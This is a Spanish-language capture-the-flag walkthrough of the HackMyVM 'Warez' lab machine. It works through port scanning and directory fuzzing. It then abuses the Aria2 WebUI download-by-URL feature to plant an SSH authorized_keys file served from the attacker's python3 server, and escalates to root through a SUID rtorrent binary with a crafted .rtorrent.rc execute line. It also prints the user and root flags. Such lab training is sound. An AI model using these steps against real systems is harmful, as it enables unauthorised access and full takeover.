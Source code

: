 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Warez HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-29 03:19 EDT
Nmap scan report for 192.168.5.30
Host is up (0.00038s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 cc:00:63:dd:49:fb:1c:c7:ac:69:63:bc:05:1a:59:cd (RSA)
|   256 9b:19:49:25:eb:9c:60:c5:2b:ec:2a:d4:fd:d1:c2:f4 (ECDSA)
|_  256 41:16:e6:d0:a0:da:22:4f:07:3f:c8:cf:60:2c:02:79 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Aria2 WebUI
6800/tcp open  http    aria2 downloader JSON-RPC
|_http-title: Site doesn't have a title.
MAC Address: 08:00:27:D5:26:02 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

Veremos varios puertos interesantes, entre ellos el puerto `80` y el puerto `6800` vamos a ver que contiene cada uno de ellos, si nos vamos al puerto `80` veremos una pagina web normal y corriente sin nada interesante de forma aparente, ahora si nos vamos al puerto `6800` veremos una pantalla en negro como que esta cargando algo pero que no lo llega hacer ya que puede requerir algo mas, vamos a realizar `fuzzing` en los `2` puertos a ver que encontramos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.30/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 81758]
/flags                (Status: 403) [Size: 153]
/robots.txt           (Status: 200) [Size: 12]
/result.txt           (Status: 200) [Size: 1585]
[!] Keyboard interrupt detected, terminating.
Progress: 312843 / 882244 (35.46%)
===============================================================
Finished
===============================================================
```

## Escalate user carolina

No encontraremos nada interesante, pero si volvemos a buscar en el puerto `80` veremos esta opcion interesante llamada `Add` -> `By URLs` y veremos un campo que sera el siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-29 093102.png" alt=""><figcaption></figcaption></figure>

Veremos que nos podremos descargar un archivo de forma local en el servidor, desde una `URL` por lo que vamos a probar a establecer un servidor de `python3` y que se nos pase a la carpeta de `carolina` el archivo de `authorized_keys` vamos a realizar lo siguiente.

```shell
ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa
```

```shell
cp ~/.ssh/id_rsa .
cat ~/.ssh/id_rsa.pub > authorized_keys
```

Una vez echo esto haremos lo siguiente.

```shell
python3 -m http.server
```

Desde la pagina vamos a rellenar la informacion de esta forma:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-29 094020.png" alt=""><figcaption></figcaption></figure>

Una vez dandole al `Start` veremos que se esta subiendo, en el servidor de `python3` vemos que se descargo el archivo y si probamos a meternos mediante la `id_rsa` de nuestro usuario del `host`.

### SSH

```shell
ssh -i id_rsa carolina@<IP>
```

Con esto estaremos dentro.

```
The authenticity of host '192.168.5.30 (192.168.5.30)' can't be established.
ED25519 key fingerprint is SHA256:6KuYVOialBusL5WnriRRpDGS7zkNND0tbubZE160qDo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.5.30' (ED25519) to the list of known hosts.
Linux warez 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 31 02:43:08 2021 from 192.168.1.51
carolina@warez:~$ whoami
carolina
```

Por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVKeepdownloading
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos en el sistema veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
134030     36 -rwsr-xr-x   1 root     root        35040 Jul 28  2021 /usr/bin/umount
   129908     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
   129909     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
   133492     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
   134028     56 -rwsr-xr-x   1 root     root        55528 Jul 28  2021 /usr/bin/mount
   129906     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
   147812   2040 -rwsr-sr-x   1 root     root      2087648 Dec 29  2019 /usr/bin/rtorrent
   133658     72 -rwsr-xr-x   1 root     root        71912 Jul 28  2021 /usr/bin/su
   129905     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
   132259     52 -rwsr-xr--   1 root     messagebus    51336 Feb 21  2021 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   144105    472 -rwsr-xr-x   1 root     root         481608 Mar 13  2021 /usr/lib/openssh/ssh-keysign
```

Veremos esta linea de aqui:

```
147812   2040 -rwsr-sr-x   1 root   root  2087648 Dec 29  2019 /usr/bin/rtorrent
```

Vamos a buscar si hay alguna escalada o vulnerabilidad para poder ser `root`.

```shell
echo "execute = /bin/sh,-p,-c,\"/bin/sh -p <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc /usr/bin/rtorrent
```

Info:

```
# whoami
root
```

Veremos que con esto seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVKeepsharing
```

